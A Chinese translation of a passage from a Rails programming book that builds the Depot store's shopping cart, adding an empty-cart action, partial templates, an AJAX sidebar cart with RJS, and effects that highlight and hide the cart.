这次，当我们手动输入无效的商品代码时，我们在目录页面的顶部看到了报告的错误。



感觉到一个迭代的结束，我们叫来客户，向她展示错误现在得到了妥善处理。她很高兴，并继续试用应用程序。她注意到我们新的购物车显示上有一个小问题——没有办法清空购物车中的商品。这个小改动将是我们下一个迭代的任务。我们应该在回家前完成它。

### 8.5 迭代 C4：完成购物车

我们现在知道，为了实现`清空购物车`功能，我们必须在购物车上添加一个链接，并在商店控制器中实现一个`empty_cart`方法。让我们从模板开始。我们不使用超链接，而是使用`button_to`方法在页面上放置一个按钮。

```erb
下载 depot_h/app/views/store/add_to_cart.rhtml

<h1>Your Pragmatic Cart</h1>

<ul>
  <% for cart_item in @cart.items %>
    <li><%= cart_item.quantity %> &times; <%= h(cart_item.title) %></li>
  <% end %>
</ul>

<%= button_to "Empty cart", :action => :empty_cart %>
```

在控制器中，我们将实现`empty_cart`方法。它会将会话中的购物车移除，在重定向到索引页面之前向flash中设置一条消息。

```ruby
下载 depot_h/app/controllers/store_controller.rb

def empty_cart
  session[:cart] = nil
  flash[:notice] = "Your cart is currently empty"
  redirect_to :action => :index
end
```

现在，当我们查看购物车并点击*Empty cart*链接时，我们会返回到目录页面，并显示一条友好的小消息：


然而，在我们试图自我表扬之前，让我们回顾一下我们的代码。我们刚刚引入了一些重复代码。在商店控制器中，现在有两个地方会向flash中设置消息并重定向到索引页面。听起来我们应该将这段公共代码提取成一个方法，所以让我们实现`redirect_to_index`，并修改`add_to_cart`和`empty_cart`方法来使用它。

```ruby
下载 depot_i/app/controllers/store_controller.rb

def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @cart.add_product(product)
  end
end

def empty_cart
  session[:cart] = nil
  redirect_to_index("Your cart is currently empty")
end

private

def redirect_to_index(msg)
  flash[:notice] = msg
  redirect_to :action => :index
end
```

最后，我们将着手整理购物车的显示。我们不使用`<li>`元素来显示每个商品，而是使用表格。我们将再次依赖CSS来进行样式设计。

```erb
下载 depot_i/app/views/store/add_to_cart.rhtml

<div class="cart-title">Your Cart</div>
<table>
  <% for cart_item in @cart.items %>
```


```markdown
## 9.1 迭代 D1：移动购物车

目前，我们的购物车是通过 `add_to_cart` 操作和相应的 `.rhtml` 模板来渲染的。我们想做的是将这个渲染过程移入显示完整商品目录的布局中。这很简单，可以使用*局部模板*（partial templates）。<sup>1</sup>

### 局部模板

编程语言允许你定义*方法*（methods）。一个方法就是一段有名字的代码块：通过名字调用这个方法，相应的代码块就会被执行。当然，你可以向一个方法传递参数，这让你可以编写一段能在不同场景下复用的代码。

你可以将 Rails 的局部模板（简称 *partials*）看作是视图（views）中的一种“方法”。一个局部视图（partial）就是一个位于独立文件中的视图代码块。你可以从另一个模板或控制器中调用（渲染）一个局部视图，它会渲染自身并返回渲染结果。而且，和方法一样，你也可以向局部视图传递参数，这样同一个局部视图就能渲染出不同的结果。

我们将在这次迭代中两次使用局部视图。首先，让我们看看购物车显示本身。

```
Download depot_i/app/views/store/add_to_cart.rhtml

<div class="cart-title">Your Cart</div>
<table>
  <% for cart_item in @cart.items %>
    <tr>
      <td><%= cart_item.quantity %>&times;</td>
      <td><%= h(cart_item.title) %></td>
      <td class="item-price"><%= number_to_currency(cart_item.price) %></td>
    </tr>
  <% end %>

  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= number_to_currency(@cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Empty cart", :action => :empty_cart %>
```

> <sup>1</sup> 另一种方式是使用*组件*（components）。组件是一种将控制器完成的工作及其相应渲染进行封装的方法。在我们的案例中，可以有一个名为 `display_cart` 的组件，其中控制器操作负责从会话中获取购物车信息，而视图则负责渲染购物车的 HTML。然后，布局会将这个渲染好的 HTML 插入侧边栏。然而，有迹象表明组件在 Rails 社区中正逐渐失宠，因此我们在这里不使用它。（关于组件为何不再流行的讨论，请参见第 513 页的第 22.9 节 *反对组件的理由*。）

它创建了一个表格行列表，每行对应购物车中的一个商品。每当你发现自己像这样进行迭代时，你可能需要停下来问问自己：模板中的逻辑是不是太多了？事实证明，我们可以使用局部视图来抽象掉这个循环（而且，正如我们将看到的，这也为后面的一些 AJAX 魔法奠定了基础）。为此，我们将利用一个事实：你可以向渲染局部视图的方法传递一个集合，该方法会自动为集合中的每个项目调用一次局部视图。让我们重写购物车视图来使用这个特性。

```
Download depot_j/app/views/store/add_to_cart.rhtml

<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => @cart.items) %>

  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= number_to_currency(@cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Empty cart", :action => :empty_cart %>
```

这样就简单多了。`render` 方法接受局部视图的名称和集合作为参数。局部视图本身只是一个模板文件（默认情况下，与调用它的模板在同一目录中）。然而，为了将局部视图的名称与普通模板区分开来，Rails 在查找文件时会自动在局部视图名称前加一个下划线。这意味着我们的局部视图将存储在 `app/views/store` 目录下的 `_cart_item.rhtml` 文件中。

```
Download depot_j/app/views/store/_cart_item.rhtml

<tr>
  <td><%= cart_item.quantity %>&times;</td>
  <td><%= h(cart_item.title) %></td>
  <td class="item-price"><%= number_to_currency(cart_item.price) %></td>
</tr>
```

这里有一些微妙之处。在局部模板内部，我们使用变量 `cart_item` 来引用当前的购物车商品。这是因为主模板中的 `render` 方法会安排一个与局部模板同名的变量，每次循环时将其设置为当前的商品。局部视图名为 `cart_item`，因此在局部视图内部，我们预期会有一个名为 `cart_item` 的变量。

现在我们已经整理好了购物车的显示，但这还没有将其移入侧边栏。为了做到这一点，让我们重新审视我们的布局。如果我们有一个可以显示购物车的局部视图，我们就可以简单地嵌入调用

```
render(:partial => "cart")
```

为了使这工作，我们需要向 Cart 模型添加一个返回所有商品总价的方法。我们可以使用 Rails 强大的 `sum` 方法对集合中每个商品的价格求和来实现它。

```
def total_price
  @items.sum { |item| item.price }
end
```

这给了我们一个更好看的购物车。



#### 我们刚刚做了什么

这是忙碌而富有成效的一天。我们为商店添加了购物车，过程中还初步接触了一些很棒的 Rails 功能。

- 使用会话存储状态
- 创建并集成非数据库模型
- 使用 flash 在操作之间传递错误
- 使用日志记录器记录事件
- 从控制器中消除重复代码

我们也制造并见识了不少错误，以及如何规避它们。
但是，就在我们以为这个功能已经完成时，我们的客户拿着一份《信息技术与高尔夫周刊》走了过来。显然，上面有一篇关于一种新式浏览器界面的文章，内容可以实时更新。"AJAX，"她自豪地说道。嗯……我们明天再来看看这个。

## 动手实践时间

以下是一些你可以自己尝试的东西。

- 向会话添加一个新变量，记录用户访问 index 操作的次数。（第一次访问时，计数器还不在会话中。你可以用类似 `if session[:counter].nil?` `...` 的代码来测试这一点。如果会话变量不存在，你就需要初始化它。然后你就可以增加它了。）
- 将此计数器传递给你的模板，并在目录页面顶部显示它。提示：`pluralize` 辅助方法（在第 475 页描述）在形成显示的信息时可能很有用。
- 每当用户向购物车添加商品时，将计数器重置为零。
- 修改模板，仅当计数器大于五时才显示它。

（你可以在 http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime 找到提示）

在本章中，我们将看到

- 使用局部模板
- 渲染到页面布局
- 使用 AJAX 和 rjs 动态更新页面
- 使用 Script.aculo.us 高亮显示更改
- 隐藏和显示 DOM 元素
- 在 JavaScript 被禁用时的工作

# 第 9 章

## 任务 D：添加一点 AJAX

我们的客户希望我们为商店添加 AJAX 支持。但 AJAX 到底是什么？

在过去（大约一两年前），浏览器被视为非常笨拙的设备。当你编写基于浏览器的应用程序时，你会把东西发送到浏览器，然后就不管那个会话了。在某个时刻，用户会填写一些表单字段或点击一个超链接，你的应用程序会被一个传入的请求唤醒。它会向用户渲染一个完整的页面，然后整个繁琐的过程会重新开始。我们的 Depot 应用程序到目前为止正是这样运作的。

但事实证明，浏览器并不真的那么笨（谁会想到呢？）。它们可以运行代码。几乎所有的浏览器都可以运行 JavaScript（而且绝大多数也支持 Adobe 的 Flash）。事实证明，浏览器中的 JavaScript 可以在幕后与服务器上的应用程序交互，从而更新用户看到的内容。Jesse James Garrett 将这种交互风格命名为 *AJAX*（它曾经是 *Asynchronous JavaScript and XML* 的缩写，但现在只意味着 *让浏览器少折腾点*）。

那么，让我们用 AJAX 来改造我们的购物车。与其拥有一个单独的购物车页面，不如将当前的购物车显示放入目录的侧边栏中。然后，我们将添加 AJAX 魔法，更新侧边栏中的购物车，而无需重新显示整个页面。

无论何时处理 AJAX，最好先从非 AJAX 版本的应用程序开始，然后逐步引入 AJAX 功能。这就是我们将要在这里做的。首先，让我们将购物车从其自己的页面移出，放入侧边栏。
```

在侧边栏中。但是局部视图如何知道从哪里获取购物车对象呢？一种方式是让它做出某种假设。在布局中，我们可以访问由控制器设置的`@cart`实例变量。事实证明，在布局调用的局部视图中也可以使用这个变量。然而，这有点像调用一个方法并通过全局变量传递值。它能工作，但这是糟糕的编码方式，并且增加了耦合度（这反过来会使你的程序变得脆弱且难以维护）。

还记得在`add_to_cart`模板中使用带有`collection`选项的`render`吗？它在局部视图中设置了变量`cart_item`。事实证明，当我们直接调用局部视图时，也可以这样做。`render`的`:object`参数接受一个对象，该对象将被赋值给一个与局部视图同名的局部变量。因此，在布局中我们可以这样调用：

```erb
<%= render(:partial => "cart", :object => @cart) %>
```

并在`_cart.html`模板中，我们可以通过变量`cart`来引用购物车。

现在让我们来进行这个连接。首先，我们将创建`_cart.html`模板。这基本上就是我们的`add_to_cart`模板，但使用`cart`而不是`@cart`。（请注意，局部视图调用其他局部视图是允许的。）

```
Download depot_j/app/views/store/_cart.html
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= number_to_currency(cart.total_price) %></td>
  </tr>
</table>
<%= button_to "Empty cart", :action => :empty_cart %>
```

现在我们将修改商店布局，在侧边栏中包含这个新的局部视图。

```
Download depot_j/app/views/layouts/store.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
       "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>Pragprog Books Online Store</title>
  <%= stylesheet_link_tag "depot", :media => "all" %>
</head>
<body id="store">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <div id="cart">
        <%= render(:partial => "cart", :object => @cart) %>
      </div>
      <a href="http://www....">Home</a><br />
      <a href="http://www..../faq">Questions</a><br />
      <a href="http://www..../news">News</a><br />
      <a href="http://www..../contact">Contact</a><br />
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
      <%= yield :layout %>
    </div>
  </div>
</body>
</html>
```

现在我们必须对商店控制器进行一个小改动。我们在查看商店的`index`动作时调用布局，而该动作目前并未设置`@cart`。这很容易解决。

```ruby
def index
  @products = Product.find_products_for_sale
  @cart = find_cart
end
```

如果你在将某物添加到购物车后显示目录，你应该会看到类似下一页图9.1所示的内容。² 让我们等着网络奖提名吧。

### 改变流程

既然我们已经在侧边栏中显示了购物车，我们可以改变[Add to Cart]按钮的工作方式。它不再需要显示一个单独的购物车页面，而只需刷新主索引页面。这个改变相当简单：在`add_to_cart`动作的最后，我们只需将浏览器重定向回索引页。

```ruby
def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @cart.add_product(product)
    redirect_to_index
  end
end
```

为了使此操作正常工作，我们需要修改`redirect_to_index`的定义，使`msg`参数变为可选。

```ruby
# Download depot_k/app/controllers/store_controller.rb
def redirect_to_index(msg = nil)
  flash[:notice] = msg if msg
  redirect_to :action => :index
end
```

我们现在应该删除`add_to_cart.rhtml`模板——它不再需要了。（更重要的是，让它留在这里可能会在本章后面让我们感到困惑。）

所以，现在我们有了一个侧边栏中有购物车的商店。当你点击将一件物品添加到购物车时，页面会重新显示并更新购物车。然而，如果我们的目录很大，重新显示可能会花费一些时间。它会占用带宽，并且会消耗服务器资源。幸运的是，我们可以使用AJAX来改善这一点。

### 9.2 迭代D2：基于AJAX的购物车

AJAX让我们能够编写在浏览器中运行的代码，与我们基于服务器的应用程序进行交互。在我们的案例中，我们希望让`Add to Cart`按钮在后台调用服务器的`add_to_cart`动作。然后，服务器可以只发送购物车的HTML，我们可以用服务器的更新内容替换侧边栏中的购物车。

现在，通常你会通过编写在浏览器中运行的JavaScript代码以及编写与此JavaScript通信的服务器端代码（可能使用JSON等技术）来实现这一点。好消息是，在Rails中，所有这些都被隐藏了。我们可以使用Ruby来完成所有需要的工作（并且得到许多Rails辅助方法的支持）。

将AJAX添加到应用程序的技巧是采取小步骤。所以，让我们从最基本的步骤开始。让我们更改目录页面，向我们的服务器应用程序发送一个AJAX请求，并让应用程序用包含更新后购物车的HTML片段进行响应。

在索引页上，我们使用`button_to`来创建指向`add_to_cart`动作的链接。在底层，`button_to`生成一个HTML表单。辅助方法

```erb
<%= button_to "Add to Cart", :action => :add_to_cart, :id => product %>
```

生成的HTML看起来像这样：

```html
<form method="post" action="/store/add_to_cart/1" class="button-to">
  <input type="submit" value="Add to Cart" />
</form>
```

这是一个标准的HTML表单，因此当用户点击提交按钮时，将生成一个POST请求。我们希望将其更改为发送AJAX请求。为此，我们需要显式地编写表单，使用一个名为`form_remote_tag`的Rails辅助方法。名称中的`form_...._tag`部分告诉你它正在生成一个HTML表单，而`remote`部分告诉你它将使用AJAX对你的应用程序进行远程过程调用。因此，编辑`app/views/store`目录中的`index.rhtml`，将`button_to`调用替换为类似以下的内容：

```
Download depot_1/app/views/store/index.rhtml
<% form_remote_tag :url => { :action => :add_to_cart, :id => product } do %>
  <%= submit_tag "Add to Cart" %>
<% end %>
```

你使用`:url`参数告诉`form_remote_tag`如何调用你的服务器应用程序。它接受一个哈希值，这些值与我们传递给`button_to`的尾部参数相同。Ruby块内（在`do`和`end`关键字之间）的代码是表单的正文。在本例中，我们有一个简单的提交按钮。从用户的角度来看，此页面与上一个页面看起来完全相同。

在我们处理视图的同时，我们还需要安排我们的应用程序将Rails使用的JavaScript库发送到用户的浏览器。我们将在第23章《Web，V2.0》（第522页）中详细讨论这一点，但现在，让我们在商店布局的`<head>`部分添加一个对`javascript_include_tag`的调用。

```
Download depot_1/app/views/layouts/store.html
<html>
<head>
  <title>Pragprog Books Online Store</title>
  <%= stylesheet_link_tag "depot", :media => "all" %>
  <%= javascript_include_tag :defaults %>
</head>
```

到目前为止，我们已经安排浏览器向我们的应用程序发送AJAX请求。下一步是让应用程序返回一个响应。计划是创建代表购物车的更新HTML片段，并让浏览器将该HTML插入DOM以替换已存在的购物车。第一个更改是停止`add_to_cart`动作重定向到索引显示。（我知道，我们就在几页前添加了这个。现在我们又把它去掉了。我们是敏捷的，对吧？）

```ruby
Download depot_1/app/controllers/store_controller.rb
def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @cart.add_product(product)
  end
end
```

由于这个更改，当`add_to_cart`完成处理AJAX请求后，Rails将寻找一个`add_to_cart`模板进行渲染。我们在第127页删除了旧的.rhtml模板，所以看起来我们需要添加一些回来。让我们做点不一样的事情。

Rails 1.1引入了RJS模板的概念。`.rjs`中的`.js`代表JavaScript。`.rjs`模板是一种通过编写服务器端Ruby代码来让浏览器中的JavaScript执行你想要操作的方式。让我们编写我们的第一个模板：`add_to_cart.rjs`。它和任何其他模板一样，放在`app/views/store`目录中。

```
Download depot_1/app/views/store/add_to_cart.rjs
page.replace_html("cart", :partial => "cart", :object => @cart)
```


让我们分析这个模板。`page` 变量是一个名为 JavaScript 生成器的东西的实例——一个 Rails 类，它知道如何在服务器端创建 JavaScript 并让浏览器执行它。在这里，我们告诉它用……某些内容替换当前页面上 ID 为 `cart` 的元素的内容。`replace_html` 的其余参数看起来很熟悉。它们应该熟悉——它们与我们在商店布局中用来渲染局部视图的参数完全相同。这个简单的 `.js` 模板渲染表示购物车的 HTML。然后，它告诉浏览器用该 HTML 替换 ID=`"cart"` 的 `<div>` 的内容。

它能工作吗？在书中很难展示，但它确实有效。确保你重新加载索引页面，以便将 `form_remote_tag` 和 JavaScript 库加载到浏览器中。然后，单击其中一个“添加到购物车”按钮。你应该会看到侧边栏中的购物车更新。而且你不应该看到浏览器显示任何重新加载页面的迹象。你刚刚创建了一个 AJAX 应用程序。

#### 故障排除

尽管 Rails 使 AJAX 变得异常简单，但它无法使其万无一失。而且，由于你正在处理多种技术的松散集成，因此很难弄清楚为什么你的 AJAX 不起作用。这就是为什么你应该始终一步一步地添加 AJAX 功能的原因之一。

如果你的 Depot 应用程序没有显示任何 AJAX 魔法，这里有一些提示。

- 你是否删除了旧的 `add_to_cart.rhtml` 文件？
- 你是否记得在商店布局中包含 JavaScript 库（使用 `javascript_include_tag`）？
- 你的浏览器是否有任何特殊咒语来强制它重新加载页面上的所有内容？有时浏览器会保留页面资源的本地缓存版本，这可能会搞乱测试。现在是进行完全重新加载的好时机。
- 你是否有任何错误报告？查看日志目录中的 `development.log`。
- 仍然查看日志文件，你是否看到对 `add_to_cart` 操作的传入请求？如果没有，这意味着你的浏览器没有发出 AJAX 请求。如果 JavaScript 库已加载（使用浏览器中的“查看”→“源代码”会向你显示 HTML），也许你的浏览器禁用了 JavaScript 执行？
- 一些读者报告说，他们必须停止并重新启动他们的应用程序才能使基于 AJAX 的购物车工作。
- 如果你使用 Internet Explorer，它可能运行在 Microsoft 所谓的 *quirks 模式* 中，该模式向后兼容旧的 IE 版本，但也存在问题。如果下载页面的第一行是适当的 DOCTYPE 声明，IE 会切换到 *标准模式*，该模式与 AJAX 内容配合得更好。我们的布局使用

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

#### 客户永不满足

我们对自己感到相当满意。我们修改了几行代码，而我们那个无聊的旧 Web 1.0 应用程序现在有了 Web 2.0 AJAX 速度条纹。我们气喘吁吁地叫客户过来。什么也没说，我们自豪地按下“添加到购物车”按钮，然后看着她，期待着我们所知道的赞美。然而，她看起来很惊讶。“你叫我过来是为了给我看一个错误？”她问道，“你点击那个按钮，什么也没发生。”

我们耐心地解释说，实际上，发生了相当多的事情。看看侧边栏中的购物车。看到了吗？当我们添加东西时，数量从 4 变为 5。

“哦，”她说，“我没注意到那个。”而且，如果她没注意到页面更新，很可能我们的客户也不会注意到。是时候进行一些用户界面的黑客操作了。

### 9.3 迭代 D3：突出显示更改

我们之前说过，`javascript_include_tag` 辅助方法会将一些 JavaScript 库下载到浏览器。其中一个库 effects.js 可以让你用许多视觉上有趣的效果来装饰你的网页。[3] 其中一个效果是（现在）臭名昭著的黄色淡出技术。它可以在浏览器中突出显示一个元素：默认情况下，它会将背景闪烁为黄色，然后逐渐淡回白色。下一页的图 9.2 显示了应用于我们购物车的黄色淡出技术：后面的图片显示了原始购物车。用户单击“添加到购物车”按钮，随着行变得更亮，计数更新为 2。然后它在短时间内淡回背景颜色。

让我们在购物车中添加这种高亮显示。每当购物车中的项目被更新（无论是添加时还是我们更改数量时），都让其背景闪烁。这将使我们的用户更清楚地知道发生了变化，即使整个页面没有刷新。

我们面临的第一个问题是识别购物车中最近更新的项目。目前，每个项目只是一个 `<tr>` 元素。我们需要找到一种方法来标记最近更改的那个。工作从 Cart 模型开始。让我们

> 3. effects.js 是 Script.aculo.us 库的一部分。查看 http://wiki.script.aculo.us/scriptaculous/show/VisualEffects 上的视觉效果页面，了解你可以用它做的很酷的事情。



让 `add_product` 方法返回添加到购物车或数量已更新的 CartItem 对象。

```
Download depot_m/app/models/cart.rb

def add_product(product)
  current_item = @items.find {|item| item.product == product}
  if current_item
    current_item.increment_quantity
  else
    current_item = CartItem.new(product)
    @items << current_item
  end
  current_item
end
```

在 store_controller.rb 中，我们将获取该信息，并通过将其分配给实例变量将其传递给模板。

```
Download depot_m/app/controllers/store_controller.rb

def add_to_cart
  begin
    product = Product.find(params[:id])
  rescue ActiveRecord::RecordNotFound
    logger.error("Attempt to access invalid product #{params[:id]}")
    redirect_to_index("Invalid product")
  else
    @cart = find_cart
    @current_item = @cart.add_product(product)
  end
end
```

在 `_cart_item.rhtml` 局部视图中，然后我们检查正在渲染的项目是否是刚刚更改的那个。如果是，我们给它打上 ID 为 `current_item` 的标签。

```
Download depot_m/app/views/store/_cart_item.rhtml
<% if cart_item == @current_item %>
  <tr id="current_item">
<% else %>
  <tr>
<% end %>
  <td><%= cart_item.quantity %>&times;</td>
  <td><%= h(cart_item.title) %></td>
  <td class="item-price"><%= number_to_currency(cart_item.price) %></td>
</tr>
```

这三个小更改的结果是，购物车中最近更改项目的 `<tr>` 元素将被标记为 `id="current_item"`。现在我们只需要告诉 JavaScript 在该项目上调用高亮效果。我们在现有的 `add_to_cart.rjs` 模板中执行此操作，添加对 `visual_effect` 方法的调用。

```
Download depot_m/app/views/store/add_to_cart.rjs
page.replace_html("cart", :partial => "cart", :object => @cart)

page[:current_item].visual_effect :highlight,
                                   :startcolor => "#88ff88",
                                   :endcolor => "#114411"
```

看到我们如何通过将 `:current_item` 传递给页面来识别想要应用效果的浏览器元素了吗？然后我们请求 *highlight* 视觉效果，并用与我们的设计更匹配的颜色覆盖默认的黄色/白色过渡。单击将项目添加到购物车，你将看到购物车中更改的项目发出淡绿色的光，然后淡出并融入背景。

### 9.4 迭代 D4：隐藏空购物车

客户的最后一个请求：目前，即使是空的购物车仍然显示在侧边栏中。我们能否安排购物车仅在有内容时显示？当然可以！

事实上，我们有几个选项。最简单的可能是在购物车中有内容时才包含购物车的 HTML。我们可以在 `_cart` 局部视图中完全做到这一点。

```
<% unless cart.items.empty? %>
<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>

  <tr class="total-line">
```


`。

尽管这样能实现功能，但用户界面显得有些粗暴：侧边栏在购物车从空到有内容的过渡时会完全重绘。因此，我们决定不使用这段代码，而是让它变得更加平滑。

Script.aculo.us 效果库包含许多让元素优雅出现的过渡效果。让我们使用 *blind_down*，它能平滑地展开购物车，同时将侧边栏的其余部分向下滑动以腾出空间。

毫不意外，我们将使用现有的 `.js` 模板来调用这个效果。因为 `add_to_cart` 模板只在我们将商品加入购物车时被调用，所以我们知道，每当购物车中恰好有一件商品时（这意味着之前购物车是空的，因此是隐藏的），我们就必须在侧边栏中显示购物车。而且，由于购物车在开始高亮效果之前应该是可见的，我们将在触发高亮的代码之前添加显示购物车的代码。

模板现在看起来是这样的。

```
Download depot_n/app/views/store/add_to_cart.rjs
page.replace_html("cart", :partial => "cart", :object => @cart)

page[:cart].visual_effect :blind_down if @cart.total_items == 1

page[:current_item].visual_effect :highlight,
                            :startcolor => "#88ff88",
                            :endcolor => "#114411"
```

这还不能工作，因为我们的购物车模型中还没有 `total_items` 方法。

```
Download depot_n/app/models/cart.rb
def total_items
  @items.sum { |item| item.quantity }
end
```

我们必须安排好在购物车为空时将其隐藏。有两种基本方法。第一种，如本节开头的代码所示，是根本不生成任何 HTML。不幸的是，如果我们这样做，那么当我们向购物车中添加商品并突然生成购物车 HTML 时，浏览器会看到一个闪烁，因为购物车首先被显示，然后隐藏，最后才通过 `blind_down` 效果慢慢展开。

处理这个问题的一个更好方法是创建购物车 HTML，但如果购物车为空，则设置 CSS 样式为 `display: none`。为此，我们需要更改 `app/views/layouts` 中的 `store.rhtml` 布局。我们的初步尝试是这样的。

```
<div id="cart"
    <% if @cart.items.empty? %>
        style="display: none"
    <% end %>
>
    <%= render(:partial => "cart", :object => @cart) %>
</div>
```

这段代码向 `<div>` 标签添加了 CSS `style=` 属性，但仅在购物车为空时添加。它工作得很好，但真的、真的很难看。那个悬垂的 `>` 字符看起来放错了位置（尽管实际上没有），而将逻辑插入标签中间的方式正是让模板语言名声不好的那种做法。我们不要让这种丑陋污染我们的代码。相反，让我们创建一个抽象来隐藏它——我们将编写一个辅助方法。

#### 辅助方法

每当我们想从视图（任何类型的视图）中抽象出一些处理逻辑时，我们都需要编写一个辅助方法。

如果你查看 `app` 目录，你会找到四个子目录。

```
depot> ls -p app
controllers/     helpers/      models/      views/
```

毫不意外，我们的辅助方法放在 `helpers` 目录中。如果你查看那里，你会发现它已经包含了一些文件。

```
depot> ls -p app/helpers
admin_helper.rb     application_helper.rb     store_helper.rb
```

Rails 生成器自动为每个控制器（admin 和 store）创建了一个辅助文件。Rails 命令本身（就是最初创建应用程序的那个命令）创建了 `application_helper.rb` 文件。我们在特定控制器辅助文件中定义的方法可用于该控制器引用的视图。在通用 `application_helper` 文件中的方法可用于所有应用程序的视图。这为我们的新辅助方法提供了一个选择。目前，我们只需要在 store 视图中使用它，所以我们先把它放在那里。

让我们看看 `helpers` 目录中的 `store_helper.rb` 文件。

```
module StoreHelper
end
```

让我们编写一个名为 `hidden_div_if` 的辅助方法。它接受一个条件和一个可选的属性集。它创建一个 `<div>` 标签，并在条件为真时添加 `display: none` 样式。我们将在 store 布局中这样使用它。

```
Download depot_n/app/views/layouts/store.rhtml

<%= hidden_div_if(@cart.items.empty?, :id => "cart") %>
  <%= render(:partial => "cart", :object => @cart) %>
</div>
```

我们将编写我们的辅助方法，使其仅对 store 控制器本地，方法是将其添加到 `app/helpers` 目录中的 `store_helper.rb` 文件。

```
Download depot_n/app/helpers/store_helper.rb

module StoreHelper

  def hidden_div_if(condition, attributes = {})
    if condition
      attributes["style"] = "display: none"
    end
    attrs = tag_options(attributes.stringify_keys)
    "<div #{attrs}>"
  end
end
```

注意，我们在这里稍微取了巧。我们从 Rails 标准辅助方法 `content_tag` 中复制了代码；这就是我们知道如何调用 `tag_options` 的原因。<sup>4</sup>

最后，我们需要移除当用户清空购物车时显示的 flash 消息。它真的不再需要了，因为当目录索引页重绘时，购物车会明显地从侧边栏消失。但还有一个移除它的原因。既然我们现在使用 AJAX 将商品添加到购物车，那么在用户购物过程中，主页面不会在请求之间重绘。这意味着即使我们在侧边栏中显示购物车，我们也会继续显示说购物车为空的 flash 消息。

```
Download depot_n/app/controllers/store_controller.rb

def empty_cart
  session[:cart] = nil
  redirect_to_index
end
```

虽然这看起来有很多步骤，但实际上并不是。我们所做的让购物车隐藏和显示的所有事情，只是让 CSS 的 `display` 样式根据购物车中的商品数量进行条件设置，并在购物车从空变为有一件商品时，使用 `.rjs` 模板调用 `blind_down` 效果。

每个人都对我们花哨的新界面感到兴奋。事实上，因为我们的电脑在办公室网络上，我们的同事将他们的浏览器指向我们的测试应用程序并亲自尝试。当人们惊叹于购物车出现和更新的方式时，随之而来的是一阵低声的惊叹。每个人都喜欢它。每个人。

> 4.  我们是如何找到 `content_tag` 方法的源代码的？我们在浏览器中打开了 Rails API 文档，并点击了“查看源代码”链接。

也就是说，除了 Bruce。Bruce 不相信在他浏览器中运行的 JavaScript，并且把它禁用了。而且，在禁用 JavaScript 的情况下，我们所有花哨的 AJAX 都停止工作了。当 Bruce 向他的购物车中添加东西时，他看到了一些奇怪的东西。

```
$("cart").update("<h1>Your Cart</h1>\n\n<ul>\n  \n  <li id=\"current_item\">\n\n  3 &times; Pragmatic Project Automation\n</li>\n</ul>\n  \n<form method=\"post\" action=\"/store/empty_cart\"  class="button-to...
```

显然，这不行。我们需要让我们的应用程序在用户浏览器禁用 JavaScript 时也能工作。这将是我们的下一次迭代。

### 9.5 迭代 D5：在 JavaScript 被禁用时优雅降级

